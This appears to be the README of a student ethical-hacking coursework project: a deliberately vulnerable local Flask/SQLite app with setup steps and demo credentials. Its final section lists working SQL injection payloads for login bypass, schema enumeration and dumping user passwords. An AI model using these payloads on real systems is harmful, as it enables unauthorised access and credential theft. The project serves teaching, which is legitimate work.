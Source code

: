 # F20AN-CW1  

### SQL Injection Project – Ethical Hacking Coursework  

This project demonstrates SQL injection vulnerabilities as part of an ethical hacking course.  

## Contributors  
- Aryan R  
- Patson D  
- Abdirahim W  

## Setup & Execution  

1. **Install Dependencies**  
   Ensure you have a Python environment set up, then install the required dependencies:  
   ```bash
   pip install -r requirements.txt 
   ```

2. **Set Up the Database**  
Navigate to the 'flask app' directory and run:
    ```bash
   python setupDatabase.py
   ```
   The following output should be generated during its first execution:
   ```bash
    Admin user and test user created.

    admin creds: 
            u:admin
            p:dubai2020!
    test user creds: 
            u:patson
            p:patson123

    Database setup complete.
   ```
   This initializes the SQL database.

3. **Run the Application**  
Start the Flask app: 
    ```bash
    python myApp.py
    ```
    Then, open your browser and go to:  
    http://127.0.0.1:5000/

4. **Example Exploits (for SQLite):**

   - **Bypass login with comment (login page)**
     ```
     admin'-- 
     ```

   - **Bypass login with OR (login page)**
     ```
     admin' OR '1' = '1
     ```

   - **Check if injection is possible (stock page)**
     ```
     ' UNION SELECT 1,2,3,4,5; --
     ```

   - **Get SQLite version (stock page)**
     ```
     ' UNION SELECT sqlite_version(),2,3,4,5; --
     ```

   - **Show tables (stock page)**
     ```
     ' UNION SELECT name, type, 3,4,5 FROM sqlite_master; --
     ```

   - **Show SQL query with table info (stock page)**
     ```
     ' UNION SELECT sql, 2,3,4,5 FROM sqlite_master WHERE type='table' AND name='users'; --
     ```

   - **Dump all users (stock page)**
     ```
     %' UNION SELECT username, password, 1, 2, 3 FROM users; --
     ```

   - **List all tables and SQL schema (stock page)**
     ```
     ' UNION SELECT type, name, tbl_name, rootpage, sql FROM sqlite_master; --
     ```

---
This project is intended for the f20an coursework.
